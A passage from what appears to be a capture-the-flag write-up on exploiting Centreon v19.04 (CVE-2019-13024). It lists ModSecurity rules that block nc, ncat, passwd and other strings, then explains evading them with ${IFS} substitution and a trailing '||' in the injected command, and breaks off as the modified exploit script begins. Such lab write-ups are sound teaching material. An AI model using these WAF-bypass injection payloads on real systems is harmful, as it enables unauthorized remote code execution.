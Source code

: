     # block # char
    SecRule REQUEST_BODY "%23" "id:00004,deny,msg:'blocked'"
    
    # block any whitespace
    SecRule REQUEST_BODY "\+" "id:00005,deny,msg:'blocked'"
    
    # block hostname word
    SecRule REQUEST_BODY "\bhostname\b" "id:00006,deny,msg:'blocked'"
    

It’s blocking `nc`, `ncat`, `passwd`, `#`, `+`, and `hostname`. I’ll notice
all of these rules are looking at the REQUEST_BODY.

### Script Upgrades

Working the box, I needed to make the script able to take commands that I gave
it at the command line so that I could bypass the WAF and get a shell. But I
did take it a bit further:

  1. Integrate substitution for space so that I don’t have to type `${IFS}`.
  2. Get output of commands.
  3. Add error handling for WAF failures.

First, I added a simple upgrade to the payload to get around the WAF, at least
for the space, by changing the payload to:

    
    
    command = sys.argv[4].replace(' ', '${IFS}')
    

Next, I noticed in the blog post that he was able to read the output of his
commands. I also noticed that the injection is into a PHP `shell_exec`, where
my input string is at the front of the input. In the blog post, he ends his
payload with a `#`, which is a comment. But it’s also a character that
triggers the WAF. Another thing I could add to the end of my string is `||`,
or logical or. This means that assuming my command succeeds, it won’t run what
comes next. I added that into the payload:

    
    
    "nagios_bin": f'{command}||'
    

Now I can see the output when I send the second POST. I’ll add some regex to
extract the results, as well as some error handling.

The resulting code is:

    
    
    #!/usr/bin/python3
    
    '''
    # Exploit Title: Centreon v19.04 authenticated Remote Code Execution
    # Date: 28/06/2019
    # Exploit Author: Askar (@mohammadaskar2):
    # Modified By: 0xdf
    # CVE : CVE-2019-13024